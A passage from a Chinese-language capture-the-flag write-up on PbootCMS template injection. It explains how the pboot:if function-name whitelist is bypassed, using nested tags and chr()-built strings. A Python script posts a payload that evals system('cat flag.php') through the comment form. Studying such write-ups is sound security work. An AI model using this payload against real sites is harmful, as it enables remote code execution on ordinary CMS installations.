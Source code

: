    执行失败![break2_comment_test2_306](../img/break2_comment_test2_306.png)

3. 研究资料发现：除了 if 标签过滤以外， `payload` 还被进行一层安全校验：提取出 `pboot:if` 标签条件判断的括号中左括号前的字符串，判断字符串是不是函数或者字符串内容是不是 `eval` ，若上述都不满足，再判断字符串不在白名单中，若在白名单中才可执行。

   - `eval`  把字符串作为 PHP 代码执行

4. 由于 PHP 项目中通常会有移除控制字符的函数。在构造 `payload` 过程中将函数名和括号间插入控制字符进行绕过。使用 `chr()` 拼接字符串，其作用是从指定的 `ASCII` 码返回字符串，从而进行拼接绕过。

   ```sh
   #system("cat flag.php")对应的ascii码
   \u0073\u0079\u0073\u0074\u0065\u006d\u0028\u0022\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0070\u0068\u0070\u0022\u0029
   ```

5. 编写拿 flag 的代码：这里经过多次试验，猜测出隐藏flag的文件为 `flag.php`

   函数 `post` 发送 `payload`

   ```php
   def myPost(url):
       headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
       post = {
           'contacts': 'stephanieSuu',
           'mobile': '123456',
           'content': '{ppbopboot:ifot:ifboot:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}我今天吃饭了{/pbpbopboot:ifot:ifoot:if} '
           
           #执行system("cat flag.php")一句话木马
       }
       response = requests.post(url, data=post,headers= headers)
       if response.status_code == 200:
           print("Exp successed")
           return True
       else:
           print("Exp failed, response code=" + str(response.status_code))
           return False
   ```
